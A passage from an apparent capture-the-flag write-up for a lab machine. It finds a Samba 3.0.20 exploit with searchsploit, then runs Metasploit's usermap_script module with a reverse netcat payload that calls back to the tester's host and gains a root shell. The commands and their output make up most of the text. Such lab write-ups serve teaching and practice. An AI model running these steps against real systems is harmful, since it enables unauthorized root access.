 Nope, couldn't catch a fish. Let's move on to the smaba.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ searchsploit samba 3.0.20                          
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                       | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Cool 🤩, we have a 'username' map script for command injection using Metasploit. Let's check it out.

```bash
msf6 > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.18:4444 
[*] Command shell session 1 opened (10.10.14.18:4444 -> 10.10.10.3:36330) at 2024-08-14 18:24:02 +0530

whoami
root
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
root@lame:/# id
id
uid=0(root) gid=0(root)
```
